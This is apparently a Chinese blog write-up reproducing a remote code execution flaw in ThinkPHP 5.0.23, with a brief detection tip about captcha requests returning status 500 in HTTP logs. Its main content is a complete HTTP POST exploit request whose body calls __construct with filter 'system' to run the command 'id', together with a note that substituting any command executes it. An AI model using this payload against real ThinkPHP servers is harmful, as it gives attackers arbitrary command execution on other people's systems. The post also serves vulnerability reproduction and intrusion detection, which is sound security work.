


thinkphp5.0.23远程代码执行漏洞
--
### 前言
本文主要以官网下载的5.0.23 完整版(thinkphp_5.0.23_with_extend.zip)为例进行复现，不过好像现在官网没有提供5.0.23版本的下载，去其他地方下载也是一样的。

###  漏洞描述

ThinkPHP是一款运用极广的PHP开发框架。其5.0.23以前的版本中，在获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。

### 漏洞利用前提

版本：5.0.23


### 漏洞利用方法

利用很简单，发送payload如下：

```
POST /thinkphp5023/public/index.php/?s=captcha HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Connection: close
Referer: http://127.0.0.1/thinkphp5023/public/index.php/?s=captcha
Cookie: bdshare_firstime=1564113816358; PHPSESSID=c4705d096482050230446d56e749fb05
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

虽然会报错，但是命令也会成功执行



想要执行其他命令只要替换server[REQUEST_METHOD]的值为其他命令就行

### 痕迹分析

查看http日志



如果日志中有index.php?s=captcha 并且状态码为500的请求，我们就有利用怀疑是被入侵了。

### 参考

分析：http://0day5.com/archives/4550/
